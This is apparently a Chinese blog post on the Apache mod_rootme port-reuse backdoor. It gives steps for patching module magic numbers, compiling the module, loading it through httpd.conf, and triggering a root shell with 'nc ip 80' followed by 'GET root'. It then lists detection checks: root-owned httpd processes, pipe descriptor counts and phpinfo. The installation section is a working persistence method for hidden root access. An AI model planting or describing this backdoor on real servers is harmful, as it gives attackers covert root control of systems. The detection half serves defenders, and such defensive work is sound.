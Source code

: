 ```yaml
---
layout: post
title: Apache端口复用后门
tags: [penetration,backdoor]
---
```

测试环境

```bash
CentOSx64 6.5
Apache2.5
```
**0x01 利用方式**

先修改后门的里面的httpd22.h文件，不修改的话，在apache启动的时候会报错

```c
将:
#define MODULE_MAGIC_COOKIE 0x41503230UL
改为:
#define MODULE_MAGIC_COOKIE 0x41503232UL

将:
#define MODULE_MAGIC_NUMBER_MAJOR 20020903
改为:
#define MODULE_MAGIC_NUMBER_MAJOR 20051115
```
然后保存。输入make linux进行编译

![185317750](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-185317750.jpg)

然后修改/etc/httpd/conf/httpd.conf

添加 LoadModule rootme22_module modules/mod_rootme22.so 加载这个模块。

然后启动apache

然后使用就可以连接80端口 nc ip 80 然后输入GET root


![4195482967](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-4195482967.jpg)

成功获取shell


**0x02 检测方式**

1.通过ps -ef | grep httpd 可以看到有root用户使用的httpd子进程


![67507677](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-67507677.jpg)

然后可以进一步去查看apache配置文件

2.通过

```bash
ps -ef | grep http | head -n 1 | awk '{system("ls -l /proc/"$2"/fd")}' | grep pipe | wc -l
```
正常情况下是64，加载了mod_rootme后是66


3.在web目录下写个phpinfo看是否加载了mod_rootme模块


  [1]: http://bl4ck.in/usr/uploads/2015/09/185317750.jpg
  [2]: http://bl4ck.in/usr/uploads/2015/09/4195482967.jpg
  [3]: http://bl4ck.in/usr/uploads/2015/09/67507677.jpg

